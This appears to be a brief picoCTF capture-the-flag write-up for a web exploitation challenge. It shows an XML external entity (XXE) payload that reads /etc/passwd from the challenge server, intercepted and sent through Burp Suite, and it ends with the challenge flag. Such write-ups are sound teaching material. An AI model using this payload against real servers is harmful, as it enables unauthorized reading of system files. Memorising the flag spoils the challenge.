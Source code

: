 # Overview 
Category: [Web Exploitation]()

AUTHOR: GEOFFREY NJOGU

# Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

# Solution
- I use Burp Suite to catch the request : 
<img src="https://i.imgur.com/8Hze7T2.png">
- XML external entity Injection (XXE):
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
```
- Can read the /etc/passwd file :
<img src="https://i.imgur.com/xbLytEC.png">
> Flag : **picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}**